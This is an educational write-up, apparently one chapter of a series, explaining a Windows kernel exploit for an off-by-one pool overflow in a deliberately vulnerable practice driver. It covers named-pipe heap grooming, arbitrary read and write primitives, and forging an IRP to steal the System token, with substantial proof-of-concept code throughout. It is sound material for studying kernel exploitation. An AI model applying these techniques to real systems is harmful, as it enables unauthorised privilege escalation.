




# Off-By-One Pool Overflow Exploit

<p class="reading-meta">{{ #word_count }} words · {{ #reading_time }}</p>

This writeup is based on the exploit PoC for the [vulnerable driver (Overfl0w.cpp)](https://github.com/vp777/Windows-Non-Paged-Pool-Overflow-Exploitation/blob/master/vulnerable_driver/Overfl0w.cpp) which is written [here (vuln_driver_al20c.cpp)](https://github.com/vp777/Windows-Non-Paged-Pool-Overflow-Exploitation/blob/master/exploits/vuln_driver_al20c.cpp).

## Vulnerability

```c
NTSTATUS Al20c(size_t Size)
{
    char* buf = (char*)ExAllocatePoolWithTag(NonPagedPoolNx, Size, 'AAAA');
    for (int i = 0; i <= Size && buf; i++)
        buf[i] = ' ';
    return STATUS_SUCCESS;
}
```

There is a one byte overflow as the for loop is writing one byte more than the allocated Size variable

## Exploit

For the allocations we deliberately go with the segment backend allocator (page-aligned large allocations) by making the DQE allocation sizes whole page multiples (0x2000, 0x4000, 0x1000) so that our chunks have no pool header metadata inside them and every entry starts exactly at a page boundary. This way the one byte overflow lands straight on the first byte of the next chunk, which is the Flink of that DQE, and since the cover entry is page aligned (something like 0x...000) the overflow turns it into 0x...020, pointing 0x20 bytes inside the cover chunk where our undercover entry will sit.

With only a single byte to overflow we are stuck with the limited overflow technique where we just redirect the Flink of the victim entry as shown in the [3rd technique](10-data-queue-entries.md#3-arbitrary-read-with-limited-control-flink-only) to get an arbitrary read first. For that we need to groom the heap in a way so that it's predictable where our overwrite occurs and that the redirected Flink lands on a cover/undercover entry we control.

```c
#define NP_HEADER_SIZE 0x30
#define FIRST_ENTRY_SIZE (0x2000-NP_HEADER_SIZE) //FIRST_ENTRY is not very important
#define SECOND_ENTRY_SIZE (0x4000-NP_HEADER_SIZE)
#define THIRD_ENTRY_SIZE (0x1000-NP_HEADER_SIZE)
```

The DQE for an individual pipe here using these sizes looks like this :

<span class="theme-diagram" width="80%">
  
  
</span>

Next we spray and groom the heap memory in such a way that a hole is created between two middle DQEs :

<span class="theme-diagram" width="80%">
  
  
</span>

The third entry (cover) would be crafted in such a way with the undercover entry in its data and the third entry would look like the following so that if the Flink last byte is overwritten by 0x20 then it would point to the undercover entry instead of cover entry now

<span class="theme-diagram" width="85%">
  
  
</span>

- IRP starts in Data of Cover entry which is why the exploit creates the right entries in the following way :

```c
    printf("Creating the RIGHT entries\n");
    char victim_data[THIRD_ENTRY_SIZE];
    DATA_QUEUE_ENTRY* dqe = (DATA_QUEUE_ENTRY*)victim_data;
    memset(dqe, 0, sizeof(*dqe));
    dqe->DataSize = THIRD_ENTRY_SIZE + 1;

    for (int i = 0; i < pipe_pool.size(); i++) {
        WriteFile(pipe_pool[i].Write, &dqe->Irp, THIRD_ENTRY_SIZE, &res, 0);
    }
```

The undercover entry starts at cover + 0x20 which is 0x10 bytes before the cover's data, so writing from `&dqe->Irp` makes the stack `DATA_QUEUE_ENTRY` line up field by field with the undercover header : stack `Irp` lands on undercover `Irp`, stack `DataSize` lands on undercover `DataSize` and so on. If we had passed `dqe` instead, everything would be shifted by 0x10 and `undercover.DataSize` would read the stack `SecurityContext` (0), which means no overread and no way to detect the corrupted pipe.

The DataSize is incremented by one which will help us in identifying the imposter pipe here in the following way afterwards

```c
for (auto& p : pipe_pool) {
    PeekNamedPipe(p.Read, buf, TOTAL_DATA_SIZE + 1, &bytes_read, 0, 0);
    if (bytes_read == TOTAL_DATA_SIZE + 1) {
        g_victim_pipe = &p;
        printf("Overflown data entry found\n");
        break;
    }
}
```

Now the overflown entry with the overwritten Flink will point to the undercover entry.

<span class="theme-diagram" width="80%">
  
  
</span>

Now the exploit grooms the pool in such a way that the undercover entry Flink is the following :

```c
Flink = EntryType | QuotaInEntry
```

The Undercover flink should point to a userdata address which the exploit uses:

```c
#define THIRD_ENTRY_SIZE (0x1000-NP_HEADER_SIZE)
#define USER_DATA_ENTRY_ADDR ((long long)THIRD_ENTRY_SIZE<<32)
```

This is done because in a buffered DQE, initially the QuotaInEntry is the same as the DataSize which is currently THIRD_ENTRY_SIZE so we can make use of it to allocate some data in userspace at `EntryType | QuotaInEntry`

## Arbitrary Read

The exploit does the following in the beginning :

```c
    if (VirtualAlloc((PVOID)USER_DATA_ENTRY_ADDR, 0x5000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE) != (PVOID)USER_DATA_ENTRY_ADDR) {
        printf("Couldn't allocate base address %p\n", USER_DATA_ENTRY_ADDR);
        return;
    }
```

This would be helping us in getting arbitrary read. We forge a DQE with an IRP from userspace. That DQE is the Flink to the undercover DQE entry. Refer to the [3rd technique](10-data-queue-entries.md#3-arbitrary-read-with-limited-control-flink-only) mentioned in the Data Queue Entries chapter.

```c
void PrepareDataEntryForRead(DATA_QUEUE_ENTRY* dqe, IRP* irp, uint64_t read_address) {
    memset(dqe, 0, sizeof(DATA_QUEUE_ENTRY));
    dqe->EntryType = 1;
    dqe->DataSize = -1;
    dqe->Irp = irp;
    irp->AssociatedIrp = (PVOID)read_address;
}

void ReadMem(uint64_t addr, size_t len, char* data) {
    static char* buf = (char*)malloc(TOTAL_DATA_SIZE + 1 + 0x5000);
    DATA_QUEUE_ENTRY* dqe = (DATA_QUEUE_ENTRY*)USER_DATA_ENTRY_ADDR;
    DWORD read;
    PrepareDataEntryForRead(dqe, (IRP*)(USER_DATA_ENTRY_ADDR + 0x1000), addr);
    PeekNamedPipe(g_victim_pipe->Read, buf, TOTAL_DATA_SIZE + 1 + len, &read, 0, 0);
    memcpy(data, buf + TOTAL_DATA_SIZE + 1, len);
}
```

Now we need to leak the next chunk address which should most likely be the DQE because of how we groomed the pool. We can easily do that with the undercover entry as it already covers some (0x21 bytes) part of the data of the next chunk. We can leak the next chunk Flink and then use the arbitrary read to read the value of next_chunk_flink->Blink. Reading the Blink works because of the safe unlink invariant, `next_chunk->Flink->Blink` must point back to `next_chunk` itself, so reading 8 bytes at the leaked pointer + 8 hands us the exact address of the next chunk without any guessing.

```c
    DATA_QUEUE_ENTRY* next_chunk_flink = (DATA_QUEUE_ENTRY*)*(uint64_t*)&buf[TOTAL_DATA_SIZE - 0x20];
    printf("Leaked Flink of next chunk: %p\n", next_chunk_flink);

    uint64_t next_chunk_addr;
    ReadMem((uint64_t)&next_chunk_flink->Blink, 8, (char*)&next_chunk_addr);
```

`buf[TOTAL_DATA_SIZE - 0x20]` is not some random offset by the way. The undercover entry claimed `0xFD1` bytes of data but only `0xFB0` bytes exist inside the cover chunk (its data starts at cover+0x50 and the chunk is exactly one page), so the last 0x21 bytes of the peek buffer are actually the first bytes of the next physical chunk. `TOTAL_DATA_SIZE - 0x20` is just `(TOTAL_DATA_SIZE + 1) - 0x21`, the first of those spilled bytes, which is where the next chunk's `Flink` begins.

And next we get our own cover DQE entry address in memory using the next chunk address:

```c
    uint64_t current_chunk_addr = next_chunk_addr - THIRD_ENTRY_SIZE - NP_HEADER_SIZE;
```

## Arbitrary Write

Now we need to create a stalled write DQE entry.

We created a pipe with the following :

```c
       w = CreateNamedPipe(
            L"\\\\.\\pipe\\exploit_20",
            PIPE_ACCESS_OUTBOUND | FILE_FLAG_OVERLAPPED,
            PIPE_TYPE_BYTE | PIPE_WAIT,
            PIPE_UNLIMITED_INSTANCES,
            TOTAL_DATA_SIZE,
            TOTAL_DATA_SIZE,
            0,
            0);
```

so the pipe quota would most likely be `TOTAL_DATA_SIZE` so if we create another DQE of any size for eg. `FIRST_ENTRY_SIZE` then that DQE would be in WAITING state for the victim pipe.
The exploit does this through a dedicated thread, because a blocking `WriteFile` into a full pipe never returns and we need the main thread free to keep using the arbitrary read :

```c
DWORD WINAPI ThreadedWriter(void* arg) {
    char* buf = (char*)arg;
    DWORD res;

    WriteFile(g_victim_pipe->Write, buf, FIRST_ENTRY_SIZE, &res, NULL);

    Sleep(-1);
    return 0;
}
```

and in main :
```c
    printf("Creating an entry with size greater than the available pipe quota\n");
    CreateThread(0, 0, ThreadedWriter, buf, 0, 0); //we could have used overlapped io
    Sleep(2000);
```

The `Sleep(2000)` just gives the writer thread time to block on the quota, and the `Sleep(-1)` inside the thread keeps it blocked forever so its IRP stays parked inside the DQE for us to dump. The comment in the exploit mentions we could have used overlapped IO instead of a thread, but in practice they found the thread approach more reliable.

Now after creation of this new stalled DQE, we can use the cover DQE entry address, read its Flink and get the new DQE Entry address too. But what we actually want from this entry is its IRP data, because that's what we use to extract the current process and system process data from their `EPROCESS` Structures via the `ThreadListEntry`. Normally a buffered entry has an empty Irp field, the data is just copied inline and the write IRP gets completed and freed right away, so there would be nothing to dump. But this entry is different because of the quota mechanism : since the write exceeds the pipe quota in blocking mode, the write IRP cannot be completed yet, so npfs parks it inside the DQE instead. This is exactly why we write more than the quota, a normal in-quota write would just give us another Irp-less entry. 
We could use an unbuffered entry here too but buffered entries are easier to create.


```c
    ReadMem((uint64_t)irp->ThreadListEntry.Flink + 0x38, 8, (char*)&cp_thread_list_head);
    current_process = cp_thread_list_head - OFFSET_EPROCESS_THREADLISTHEAD;
    ReadMem(current_process + OFFSET_EPROCESS_PID, 8, (char*)&current_process_id);
    if (current_process_id != GetCurrentProcessId())
        g_setoff++;

    current_process = cp_thread_list_head - OFFSET_EPROCESS_THREADLISTHEAD
    system_process = GetProcessById(current_process, 4);
```

Current process token is leaked using the arbitrary read primitive and then we traverse the doubly linked list of the `EPROCESS` structure to get the System Process token too (PID: 4).

Now we need to forge an `IRP` for unbuffered entry for arbitrary write primitive to overwrite the Current Process Token with the System Process Token.

```c
void PrepareWriteIRP(IRP* irp, PVOID thread_list, PVOID source_address, PVOID destination_address)
{
    irp->Flags |= IRP_BUFFERED_IO | IRP_INPUT_OPERATION;
    irp->AssociatedIrp = source_address;
    irp->UserBuffer = destination_address;
    irp->ThreadListEntry.Flink = (LIST_ENTRY*)(thread_list);
    irp->ThreadListEntry.Blink = (LIST_ENTRY*)(thread_list);
}

PrepareWriteIRP(irp, thread_list, (PVOID)(system_process + OFFSET_EPROCESS_TOKEN), (PVOID)(current_process + OFFSET_EPROCESS_TOKEN));
```

The whole write primitive is just IRP semantics here, when a buffered input IRP completes, `IopCompleteRequest` copies `AssociatedIrp` (SystemBuffer) to `UserBuffer` for us, so we set the source to the system token and the destination to our own token and let the kernel do the copy.

Now we need to add this unbuffered DQE entry with the forged IRP to the pipe using NtFsControlFile api and then we need to leak its address as well using the following:

```c
    IO_STATUS_BLOCK isb;
    NtFsControlFile(g_victim_pipe->Write, 0, 0, 0, &isb, 0x119FF8, irp, 0x1000, 0, 0);
    ReadMem(next_entry, 8, (char*)&unbuffered_entry);
```

Next we need to leak the address of the Forged IRP we just created from the Unbuffered entry in memory :

```c
    ReadMem(unbuffered_entry + offsetof(DATA_QUEUE_ENTRY, Irp), 8, (char*)&unbuffered_irp_addr);
    ReadMem(unbuffered_irp_addr + offsetof(IRP, AssociatedIrp), 8, (char*)&forged_irp_addr);
```

One thing to keep in mind, we don't reuse the real stalled IRP itself, we only use it as a template. `IofCompleteRequest` frees the IRP when it's done, so completing the original would free an IRP that ThreadedWriter is still blocked on. The forged bytes are copied into kernel memory by the NtFsControlFile call (that's what the fsctl IRP's `AssociatedIrp` points at) and that copy is what we complete and let get freed.

Now this forged `IRP` would be used to overwrite the undercover Flink again for getting arbitrary write, so the next thing we do is a ReadFile call which will try to complete the IO using IofCompleteRequest with our forged IRP which will overwrite our current process token with the system token and we would gain privileges.

```c
    dqe = (DATA_QUEUE_ENTRY*)USER_DATA_ENTRY_ADDR;
    PrepareDataEntryForWrite(dqe, (IRP*)forged_irp_addr, ARBITRARY_WRITE_SIZE);

    thread_list[0] = thread_list[1] = forged_irp_addr + offsetof(IRP, ThreadListEntry.Flink);

    ReadFile(g_victim_pipe->Read, buf, ARBITRARY_WRITE_SIZE, &res, 0);
```

`PrepareDataEntryForWrite` dresses the userspace fake DQE up as a stalled write (`EntryType = 0`, `DataSize = 8`, `QuotaInEntry = 0`, `Irp = forged_irp_addr`) so the same quota mechanism that parked the real IRP now completes our forged one. `Flink` is set to itself so that any unlink against the fake entry is a no-op.

### IRPs & ThreadLists

Every IRP carries a `ThreadListEntry`, a `LIST_ENTRY` the kernel uses to keep a per thread list of the IRPs owned by that thread (`ETHREAD.IrpList`). On completion the IRP gets unlinked from that list, and the unlink writes through the neighbors too :

```c
Irp->ThreadListEntry.Flink->Blink = Irp->ThreadListEntry.Blink;
Irp->ThreadListEntry.Blink->Flink = Irp->ThreadListEntry.Flink;
```

Our forged IRP is a copy of the real stalled IRP at a different address, so its `Flink`/`Blink` point into the blocked thread's real list while the neighbors no longer point back at it. Completing it with these stale pointers would corrupt a live list and bugcheck. The fix : give the forged IRP its own private list in userland. In `PrepareWriteIRP` both pointers are set to a `thread_list` array, and once `forged_irp_addr` is leaked the array is filled with `&forged_irp->ThreadListEntry` :

```c
thread_list[0] = thread_list[1] = forged_irp_addr + offsetof(IRP, ThreadListEntry.Flink);
```

Now the unlink validation passes and the writes land inside our own array, the real `IrpList` of the blocked thread is never touched.
